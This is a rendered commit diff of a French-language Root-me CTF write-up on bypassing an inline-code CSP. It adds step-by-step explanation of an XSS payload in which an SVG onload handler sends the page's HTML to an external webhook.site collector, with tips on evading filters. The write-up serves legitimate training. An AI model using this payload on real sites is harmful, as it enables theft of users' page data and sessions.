

Before and after one commit to Gozenmoyuko/Write-Up-CTF, a Markdown page: Write Up/Root-me/Web-Client CSP Bypass - Inline code.md, the part around the change. Shown at 81% size. Drawn GitHub-style; pictures changed too: Pasted image 20260815004634.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
vault backup: 2026-08-15 00:48:54

````diff
--- a/Write Up/Root-me/Web-Client CSP Bypass - Inline code.md
+++ b/Write Up/Root-me/Web-Client CSP Bypass - Inline code.md
@@ -63,14 +63,46 @@ Voyons voir la page qui nous redirige.
 
 Okay nous avons une page pour signaler une page qui est vulnérable à une faille de sécurité. Ce qui veut dire qu'un admin va passer par notre lien malveillant. Bingo ! Maintenant nous allons complexifier notre payload.
 
+Première tentative de payload :
+```html
+http://challenge01.root-me.org:58008/page?user=<svg onload="document.location.href='https://webhook.site/baad9b72-09e4-47bc-b3e9-29368cce0caa?c='.concat(encodeURIComponent(document.body.innerHTML))">
+```
+Bon au niveau du svg nous gardons la même logique. Maintenant laisser moi vous expliquez la suite du payload.
+
+	```html
+	document.location.href=
+	```
+va nous permettre dans notre cas de dire "lorsque tu as analyser et afficher avec succès l'image tu vas quitter la page et aller naviger vers le nouveau URL : ".
+Dans notre cas document.location.href va pointer sur l'url de webhook url qui va nous permettre de récupérer les données de la query que nous allons initialisé.
+
+L'url de mon webhook.site :
+https://webhook.site/baad9b72-09e4-47bc-b3e9-29368cce0caa
+Dans votre cas c'est quelque chose comme :
+https://webhook.site/[Votre_ID]
+
+Maintenant pourquoi on met ?c= comme je vous l'ai expliquer c'est un paramètre et nous pouvons initialiser une variable et lui donner une valeur. Dans notre cas dans notre query(requête) nous allons initialiser une variable (grâce à ?) qui va être nommée c (j'ai nommée comme ça pour dire cookie et pour raccourcir le payload) et = permet de donnée la valeur.
+
+Maintenant on quitte le document.location.href pour concaténer (collé) les données que l'on souhaite récupérer.
+
+Ici pour éviter le de me faire filtre par le site (WAF ou autre) je vais utiliser .concat pour concaténer qui est beaucoup moins filtrer comparer à "+" car oui + aussi permet de concatener mais ici on essaye de faire un payload le plus simple et efficace.
+
+Bon donc après le .concat permet juste de collé à ?c= ce qui va donner :
+?c=[les données qu'on va récupérer dans le concat]
+
+Bon maintenant pourquoi le encodeURIComponent ?
+
+En réalité, lorsque vous êtes habituer vous verrez que l'option d'encodage en base 64 btoa(encodage) et atob (pour décoder) si vous récupérer directement les caractère + seront remplacer par " " ce qui donne donc un code en base64 qui n'est pas facile à décoder. Il faudrait parse (lire la donnée) et séparer avec un .replace ou autre pour remplacer les caractère. Or ici encodeURIComponent va permettre de mettre tous les signes comme +, " " "/" etc... en code URL Encode. Ce qui donne par exemple pour le + => %2B etc... et donc par la suite btoa va pouvoir bien encoder les données en base64.
+
+Bon maintenant nous savons que l'ont veut récupérer les données qui se situe actuellement sur la page web car c'est ce qui nous ai dis avec :
+
+![](../../Pasted%20image%2020260815004634.png)
+
+{FLAG_REDACTED} qui est actuellement dans la page.
+
 
 ![](../img/Pasted%20image%2020260815000649.png)
 
 
-Première tentative de payload :
-```html
-http://challenge01.root-me.org:58008/page?user=<svg onload="document.location.href='//webhook.site/baad9b72-09e4-47bc-b3e9-29368cce0caa?c='.concat(encodeURIComponent(document.body.innerHTML))">
-```
 
 
 
````
Also changed, not shown: 1 other file.
